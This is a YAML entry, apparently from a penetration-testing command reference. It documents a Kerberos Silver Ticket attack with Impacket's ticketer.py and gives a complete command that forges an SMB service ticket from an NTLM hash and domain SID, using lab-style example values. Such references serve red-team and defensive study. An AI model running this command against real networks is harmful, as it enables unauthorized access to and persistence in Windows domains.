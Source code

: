 ```yaml
---
description: |
  Impacket's ticketer.py can perform Silver Ticket attacks, which crafts a valid TGS ticket for a specific service using a valid user's NTLM hash. It is then possible to gain access to that service. The following command crafts a TGS for the SMB service, which can then be used to gain a shell.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: b18b4b218eccad1c223306ea1916885f

  	Domain SID: S-1-5-21-1339291983-1349129144-367733775

  	SMB Service: cifs

command: |
  python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain test.local -dc-ip 10.10.10.1 -spn cifs/test.local john
items:
  - Username
  - Hash
services:
  - Kerberos
OS:
  - Linux
  - Windows
phases:
  - Exploitation
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

